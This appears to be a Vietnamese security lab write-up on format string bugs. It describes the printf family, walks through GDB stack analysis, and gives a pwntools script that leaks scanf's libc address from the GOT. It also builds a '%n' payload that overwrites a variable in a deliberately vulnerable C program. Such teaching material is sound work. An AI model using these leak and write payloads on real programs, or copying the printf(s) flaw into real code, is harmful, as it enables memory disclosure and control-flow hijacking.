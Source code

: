 # Format string
## Câu 1
### Question
Điền giới thiệu về các hàm trên bảng.

### Answer
| Hàm | Giới thiệu |
|---|---|
| `printf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào và in chuỗi đó ra stdout. |
| `fprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào và in chuỗi đó ra một output stream.|
| `vprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và in chuỗi đó ra stdout.|
| `vfprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và in chuỗi đó ra một output stream.|
| `sprintf` | Tạo một chuỗi từ định dạng và đối số cho trước và xuất chuỗi đó ra một mảng ký tự.|
| `snprintf` | Tạo một chuỗi từ định dạng và đối số cho trước và xuất chuỗi đó ra một mảng ký tự với giới hạn số lượng ký tự được xuất ra.|
| `vsprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và xuất chuỗi đó ra một mảng ký tự.|
| `vsnprintf` | Tạo một chuỗi từ định dạng và các đối số được truyền vào thông qua 1 tham số `va_list` và xuất chuỗi đó ra một mảng ký tự với giới hạn số lượng ký tự được xuất ra.|
| `setproctitle` | Đặt tên cho tiến trình sử dụng format string để tạo chuỗi tên. |
| `syslog` | Tạo log message để truyền vào system logger. Log message được tạo từ format string. |
| `err`, `verr`, `warn`, `vwarn` | Hiển thị error message. Error message được tạo từ format string. |

## Câu 2
### Question
Dùng GDB để debug và nhập giá trị `%3$x`.

### Answer
- Khi tiến trình chạy đến bước `printf(s)`, stack sẽ như sau:  

![image](https://user-images.githubusercontent.com/44528004/143236001-c1c91a66-a374-4262-a79d-3b016fdbe6d2.png)

- Kết quả chạy là:  

![image](https://user-images.githubusercontent.com/44528004/143236049-03b9b3a5-e6cc-451b-8740-806a14286986.png)

- Từ đây ta thấy được rằng `3$` sẽ tương ứng với đối số thứ 3 được truyền vào `printf`. Tuy nhiên, do chúng ta không truyền vào đối số nào cả nên tiến trình sẽ lấy giá trị cách đó 12 bytes ở phía trên của stack. Dựa vào stack bên trên, `0xffffd064` có giá trị `0xffffd070` là đối số 1, `0xffffd068` có giá trị `0xf7fc9410` là đối số 2, và `0xffffd06c` có giá trị `0x0804918d` là đối số 3.
- Vậy nếu `s = %08x.%08x.%08x` thì chương trình sẽ in ra `ffffd070.f7fc9410.0804918d`.
- Và nếu `s = %3$x` thì chương trình sẽ in ra giá trị của đối số thứ 3 là `0804918d`.


## Câu 3
### Question
Dùng GDB để debug và phân t ích tại sao có địa chỉ của `scanf`.

### Answer
- Ban đầu, khi ta truyền vào `AAAA%4$s`, chương trình bị treo vì khi hàm `printf('AAAA%4$s')` được thực thi, chương trình sẽ cố gắng truy xuất vào vùng nhớ `0x41414141` nhằm đọc các ký tự từ địa chỉ này để in ra màn hình. Tuy nhiên, `0x41414141` là vùng nhớ không thể truy xuất được nên chương trình bị treo.
> Specifier `%s` mong đợi đối số truyền vào là địa chỉ bắt đầu của chuỗi ký tự nên `printf` sẽ truy xuất đến vùng địa chỉ này để lấy giá trị.
- Trong trường hợp 4 bytes đầu của payload là địa chỉ của `__isoc99_scanf_got`, vì GOT nằm ở data segment mà data segment thì chương trình có thể truy xuất được nên sẽ không xảy ra lỗi. Bên cạnh đó, entry của `scanf` trên GOT trỏ tới địa chỉ thực của `scanf` trên libc nên ta thành công trong việc truy xuất vào địa chỉ thực của `scanf` trên libc.
- Script:  
```python
from pwn import *


sh = process('./leak')
e = ELF('./leak')

__isoc99_scanf_got = e.got['__isoc99_scanf']
print(hex(__isoc99_scanf_got))

payload = p32(__isoc99_scanf_got) + b'%4$s'
print(payload)

with open('payload.in', 'wb') as f:
    f.write(payload)

sh.sendline(payload)
sh.recvuntil(b'%4$s\n')
print(hex(u32(sh.recv()[4:8])))
sh.interactive()
```
- Trong mốt số trường hợp địa chỉ của `scanf` trong libc có chứa các byte đặc biệt như `0a`, `0b`, `0c`, `00`, ... thì `printf` sẽ terminate việc in chuỗi trên.
- Ví dụ khi chạy script exploit và dùng gdb để debug thì ta thấy rằng địa chỉ thực của `scanf` trên libc hiện tại đang là `0xf7e17300` và khi in ra ở little endian, byte `0x00` sẽ được đưa lên đầu và chuỗi sẽ bị terminate. Việc này dẫn tới việc script không in ra địa chỉ của `scanf` ra màn hình.  

  ![image](https://user-images.githubusercontent.com/44528004/143276062-c255d0e9-046f-4456-b7cf-cb8b6a3f60c3.png)

  ![image](https://user-images.githubusercontent.com/44528004/143276331-27f89422-1423-4ca2-b6d8-7edb4caaa0e8.png)

## Câu 4
Ta có đoạn code sau:
```c
#include <stdio.h>

int a = 123, b = 456;

int main() {
        int c = 789;
        char s[100];
        printf("%p\n", &c);
        scanf("%s", s);
        printf(s);
        if (c == 16) {
                puts("modified c.");
        }
        else if (a == 2) {
                puts("modified a for a small number.");
        }
        else if (b == 0x12345678) {
                puts("modified b for a big number!");
        }
        return 0;
}
```

- Ở đây, mục đích của ta là ghi đè giá trị của `c` thành 16 thì ta cần truyền vào payload có dạng `[overwriten_addr][padding]%[offset]$n`. Cụ thể hơn, payload để khai thác chương trình này sẽ là `addr_c%012d%6$n`.
    - `addr_c` là địa chỉ của biến `c`.
    - `%012d` sẽ khiến đọc 4 bytes tiếp theo trên stack và thêm padding để tạo thành 12 bytes.
    - `%6$n` sẽ đếm tổng số bytes đã đọc được ở thời điểm hiện tại và lưu vào đối số thứ 6. Với đối số thứ 6 này địa chỉ bắt đầu của buffer và đang trỏ tới địa chỉ của biến `c`. Do đó, tổng số bytes đã được đọc bởi format function là 16 sẽ được lưu vào địa chỉ của biến `c` và `c` sẽ bằng 16.

- Kết quả exploit:  

![image](https://user-images.githubusercontent.com/44528004/143288425-b2124f91-79e4-4085-b91d-59aa97a8f282.png)

